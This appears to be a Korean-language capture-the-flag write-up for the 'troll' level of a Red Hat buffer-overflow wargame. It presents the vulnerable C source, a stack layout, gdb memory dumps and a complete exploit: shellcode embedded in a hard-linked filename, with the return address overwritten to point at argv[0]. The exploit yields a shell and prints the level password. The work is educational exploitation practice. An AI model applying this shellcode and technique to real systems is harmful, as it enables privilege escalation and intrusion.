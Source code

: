 ============================================================================================================
[redhat-lob] (8) troll
============================================================================================================

.. graphviz::

    digraph foo {
        a -> b -> c -> d -> a;

        a [shape=box, label="dummy * 19 + shellcode + (argv[0] address+4*i)"];
        b [shape=box, color=lightblue, label="strcpy"];
        c [shape=box, label="Buffer Overflow"];
        d [shape=box, label="(argv[0] address+4*i)"];
    }

|

Source Code
============================================================================================================

.. code-block:: c

	#include <stdio.h>
	#include <stdlib.h>

	extern char **environ;

	main(int argc, char *argv[])
	{
		char buffer[40];
		int i;

		// here is changed
		if(argc != 2){
			printf("argc must be two!\n");
			exit(0);
		}

		// egghunter
		for(i=0; environ[i]; i++)
			memset(environ[i], 0, strlen(environ[i]));

		if(argv[1][47] != '\xbf')
		{
			printf("stack is still your friend.\n");
			exit(0);
		}

		// check the length of argument
		if(strlen(argv[1]) > 48){
			printf("argument is too long!\n");
			exit(0);
		}

		strcpy(buffer, argv[1]);
		printf("%s\n", buffer);

		// buffer hunter
		memset(buffer, 0, 40);

		// one more!
		memset(argv[1], 0, strlen(argv[1]));
	}


|

Vulnerabliity Vector
============================================================================================================

main 함수의 ret를 덮어씌워 오버플로우를 발생시킨다.

.. code-block:: console

    ==============================
    LOW     
    ------------------------------
    local variables of main
    saved registers of main
    return address of main <<- overflow
    argc
    argv
    envp
    stack from startup code
    argc
    argv pointers
    NULL that ends argv[]
    environment pointers
    NULL that ends envp[]
    ELF Auxiliary Table
    argv strings
    environment strings
    program name
    NULL
    ------------------------------
    HIGH (0xC0000000)    
    ==============================


|

Buffer Overflow
============================================================================================================

Overflow condition 

- environ을 초기화하여 환경 변수 사용를 통한 쉘코드 삽입이 불가능하다.
- argv[1] 값의 47번째 문자가 "\\xbf"이어야 함
- argv[1] 값의 길이가 48 미만 이어야 함
- argv[1] 값을 초기화하여 argv[1] 주소로 버퍼오버플로우를 진행할 수 없다.


.. code-block:: console

	※ 시작시 bash2 명령을 입력하고 bash2 쉘 상태에서 진행
    $ bash2

	$ ./troll `python -c 'print "a"*47'`
	stack is still your friend.

	$ ./troll `python -c 'print "a"*47+"\xbf"'`
	aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa▒
	Segmentation fault




|

exploit
============================================================================================================

기존 문제와 달리 argv[1] 값을 초기화 해버리기 때문에 argv[1] 주소로 버퍼오버플로우를 진행할 수 없음.
argv[0] 값에 쉘코드를 삽입하고, RET 주소를 argv[0] 주소로 변경하여야 한다.

argv[0] 값에 쉘코드 삽입
------------------------------------------------------------------------------------------------------------

기존에 사용한 쉘코드에는 "\\x2f" 값이 있기 때문에 정상적으로 쉘코드가 동작하지 않는다.

"\\x2f"가 없는 쉘코드로 파일명을 생성하도록 한다.

.. code-block:: console
	
	$ ln troll `python -c 'print "\x90"*100 + "\xd9\xc5\xd9\x74\x24\xf4\xb8\x15\xc3\x69\xd7\x5d\x29\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\xe0\xa9\x62\x8f\x93\x7c\x13\x47\x8e\xe3\x52\x70\xb8\xcc\x17\x17\x38\x7b\xf7\x85\x51\x15\x8e\xa9\xf3\x01\x98\x2d\xf3\xd1\xb6\x4f\x9a\xbf\xe7\xfc\x34\x40\xaf\x51\x4d\xa1\x82\xd6"'`
	$ ls
	troll
	troll.c    
	????????????????????????????????????????????????????????????????????????????????????????????????????▒▒▒t$▒?▒i▒])ɱ?1E??E??▒?▒▒b??|?G?▒Rp▒▒??8{▒?Q??▒▒??-▒ѶO?▒▒▒4@▒QM▒?▒
	$ ./`python -c 'print "\x90"*100 + "\xd9\xc5\xd9\x74\x24\xf4\xb8\x15\xc3\x69\xd7\x5d\x29\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\xe0\xa9\x62\x8f\x93\x7c\x13\x47\x8e\xe3\x52\x70\xb8\xcc\x17\x17\x38\x7b\xf7\x85\x51\x15\x8e\xa9\xf3\x01\x98\x2d\xf3\xd1\xb6\x4f\x9a\xbf\xe7\xfc\x34\x40\xaf\x51\x4d\xa1\x82\xd6"'` a

	stack is still your friend.


앞의 조건에 argv[1] 값을  초기화하기 때문에, gdb를 이용하여 argv[0] 주소를 찾는다.

.. code-block:: console

	(gdb) b *main
	Breakpoint 1 at 0x8048500

	(gdb) r `python -c 'print "a"*47+"\xbf"'`
	Starting program: /home/orge/▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒t$▒▒i▒])ɱ
							  1EE▒▒▒▒b▒▒|G▒▒Rp▒▒8{▒Q▒▒▒▒-▒ѶO▒▒▒▒4@▒QM▒▒▒ `python -c 'print "a"*47+"\xbf"'`
	/bin/bash: /home/goblin/.bashrc: Permission denied

	Breakpoint 1, 0x8048500 in main ()

	(gdb) stepi
	0x8048501 in main ()    

	(gdb) i reg $esp
	esp            0xbffff9a8       -1073743448

	(gdb) i reg $ebp
	ebp            0xbffff9c8       -1073743416

	(gdb) x/100x $esp

	==========================================================================
	0xbffff9a8:     0xbffff9c8      0x400309cb      0x00000002      0xbffff9f4
	0xbffff9b8:     0xbffffa00      0x40013868      0x00000002      0x08048450
	0xbffff9c8:     0x00000000      0x08048471      0x08048500      0x00000002
	0xbffff9d8:     0xbffff9f4      0x08048390      0x0804866c      0x4000ae60
	0xbffff9e8:     0xbffff9ec      0x40013e90      0x00000002      0xbffffae7
	0xbffff9f8:     0xbffffb9d      0x00000000      0xbffffbce      0xbffffbf0
	0xbffffa08:     0xbffffbfa      0xbffffc08      0xbffffc27      0xbffffc34
	0xbffffa18:     0xbffffc4d      0xbffffc69      0xbffffc88      0xbffffc93
	0xbffffa28:     0xbffffca1      0xbffffce3      0xbffffcf3      0xbffffd08
	0xbffffa38:     0xbffffd18      0xbffffd22      0xbffffd40      0xbffffd4b
	0xbffffa48:     0xbffffd5c      0xbffffd6b      0xbffffd7a      0xbffffd83
	0xbffffa58:     0x00000000      0x00000003      0x08048034      0x00000004
	0xbffffa68:     0x00000020      0x00000005      0x00000006      0x00000006
	0xbffffa78:     0x00001000      0x00000007      0x40000000      0x00000008
	0xbffffa88:     0x00000000      0x00000009      0x08048450      0x0000000b
	0xbffffa98:     0x000001fb      0x0000000c      0x000001fb      0x0000000d
	0xbffffaa8:     0x000001fb      0x0000000e      0x000001fb      0x00000010
	0xbffffab8:     0x0fabfbff      0x0000000f      0xbffffae2      0x00000000
	0xbffffac8:     0x00000000      0x00000000      0x00000000      0x00000000
	0xbffffad8:     0x00000000      0x00000000      0x36690000      0x2f003638
	0xbffffae8:     0x656d6f68      0x67726f2f      0x90902f65      0x90909090
	0xbffffaf8:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb08:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb18:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb28:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb38:     0x90909090      0x90909090      0x90909090      0x90909090
	0xbffffb48:     0x90909090      0x90909090      0x90909090      0xc5d99090
	0xbffffb58:     0xf42474d9      0x69c315b8      0xc9295dd7      0x45310bb1
	0xbffffb68:     0x1a45031a      0xe204c583      0x8f62a9e0      0x47137c93
	0xbffffb78:     0x7052e38e      0x1717ccb8      0x85f77b38      0xa98e1551
	0xbffffb88:     0x2d9801f3      0x4fb6d1f3      0xfce7bf9a      0x51af4034
	0xbffffb98:     0xd682a14d      0x61616100      0x61616161      0x61616161
                                          ^               ^               ^	
	0xbffffba8:     0x61616161      0x61616161      0x61616161      0x61616161
                          ^               ^               ^               ^
	0xbffffbb8:     0x61616161      0x61616161      0x61616161      0x61616161
                          ^               ^ argv[0] = 0xbffffbbf
	==========================================================================

|

argv[0] pointers 쉘코드 실행
------------------------------------------------------------------------------------------------------------

.. code-block:: console

    ==============================
    LOW     
    ------------------------------
    local variables of main
    saved registers of main
    return address of main <<- overflow
    argc
    argv
    envp
    stack from startup code
    argc
    argv pointers ->> shellcode
    NULL that ends argv[]
    environment pointers
    NULL that ends envp[]
    ELF Auxiliary Table
    argv strings
    environment strings
    program name
    NULL
    ------------------------------
    HIGH (0xC0000000)    
    ==============================

|

오버플로우시 RET를 argv[0] 주소로 덮어씌워 해당 쉘코드가 실행되도록 한다. argv[0] 주소의 최초 주소 값을 확인하여 4바이트씩 증가하면서 주소를 변경하면서 공격을 진행하면 성공시킬 수 있다.


.. code-block:: console

	$ ./`python -c 'print "\x90"*100 + "\xd9\xc5\xd9\x74\x24\xf4\xb8\x15\xc3\x69\xd7\x5d\x29\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\xe0\xa9\x62\x8f\x93\x7c\x13\x47\x8e\xe3\x52\x70\xb8\xcc\x17\x17\x38\x7b\xf7\x85\x51\x15\x8e\xa9\xf3\x01\x98\x2d\xf3\xd1\xb6\x4f\x9a\xbf\xe7\xfc\x34\x40\xaf\x51\x4d\xa1\x82\xd6"'` `python -c 'print "\x90"*44 + "\xbf\xfb\xff\xbf"'`
	▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒1▒Ph//shh/bin▒▒PS▒▒°
										   ̀▒▒▒▒

	bash$ whoami
	troll
	bash$ my-pass
	euid = 508
	aspirin
